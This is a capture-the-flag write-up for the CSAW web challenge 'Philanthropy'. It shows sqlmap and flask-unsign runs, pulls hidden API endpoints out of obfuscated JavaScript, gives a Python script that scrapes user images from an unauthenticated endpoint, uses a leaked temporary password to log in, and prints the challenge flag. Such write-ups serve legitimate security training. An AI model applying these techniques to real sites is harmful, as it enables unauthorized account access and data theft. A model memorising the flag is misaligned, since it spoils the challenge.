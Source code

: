# Philantrophy

## Description

Can you break into the Philanthropy website and get more information on Snake and Otacon?

[http://web.csaw.io:14180/web/home](http://web.csaw.io:14180/web/home)

Author: `Enigma`

---

## Solution

Looking at the website, we have a register and login function. I started with registering an account to see what functionality we had as a user, but there wasn't much. Next, I decided to test for SQL injection with `sqlmap`. 

```bash
sqlmap -u http://web.csaw.io:14180/web/register --forms --crawl=2
```

However, this didn't yield anything promising. Next, I started to analyze the client-side code. One unique thing I found was that for every page visit, a GET request is made to `/verify`, which returns a JSON response of your current user

```json
{
    "Member": false,
    "Username": "test@abc.com",
    "Valid": true
}
```

I thought maybe this hinted towards us needing to craft a session cookie to where Member is true. Looking at the cookie `access_token`, and using [Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi), we can determine the website is using Flask and the cookies are JWT tokens.

Next, I used `flask-unsign` to try and bruteforce the Flask `SECRET_KEY`. 

```bash
flask-unsign --unsign --wordlist=all.txt --cookie < cookie.txt
```

This also didn't yield anything. Going back to client-side code review, I also noticed every page visit `console.log`s the response of `/verify`. I went to look at the Javascript to see how this was being handled, and noticed it was obfuscated. I used some online tools to deobfuscate, but that wasn't even necessary. Just by looking at the minified and obfuscated code, we are able to pull out two unique URLs:

* /identity/images?user="tacon@protonmail.com"
* /identity/images?user="solidsnake@protonmail.com"

Visiting http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22 and the other URL yield a JSON response containing images. 

```json
{
  "msg": [
    {
      "credit": "mling@protonmail.com",
      "filename": "124d86b2-f579-4aa3-a2b5-012a125aea7d.png",
      "mg_model": "RAY",
      "submitter": "otacon@protonmail.com"
    },
    {
      "credit": "mling@protonmail.com",
      "filename": "1feda4bc-baff-455d-9ef4-7a30c986a668.png",
      "mg_model": "RAY",
      "submitter": "otacon@protonmail.com"
    }
    ...
}

```

In total, there are 13 images. Instead of manually downloading, let's automate it (because why not :D)

```python
url1 = 'http://web.csaw.io:14180/identity/images?user=%22otacon@protonmail.com%22'
url2 = 'http://web.csaw.io:14180/identity/images?user=%22solidsnake@protonmail.com%22'

import requests

r1 = requests.get(url1, verify=False)
r2 = requests.get(url2, verify=False)

resp1 = r1.json()
resp2 = r2.json()

for i in resp1['msg']:
    url = 'http://web.csaw.io:14180/images/' + i['filename']
    # download the file
    r = requests.get(url, verify=False)
    with open(i['filename'], 'wb') as f:
        f.write(r.content)

for i in resp2['msg']:
    url = 'http://web.csaw.io:14180/images/' + i['filename']
    # download the file
    r = requests.get(url, verify=False)
    with open(i['filename'], 'wb') as f:
        f.write(r.content)
```

Looking at the files, `b6116d5a-a415-4438-8f43-2b4cb648593e.png` mentions a temporary password for snake!

![b6116d5a-a415-4438-8f43-2b4cb648593e.png](https://i.imgur.com/8WQWadI.png)

Now, we can login to `solidsnake@protonmail.com` and access the flag. 

`csawctf{K3pt_y0u_Wa1t1ng_HUh}`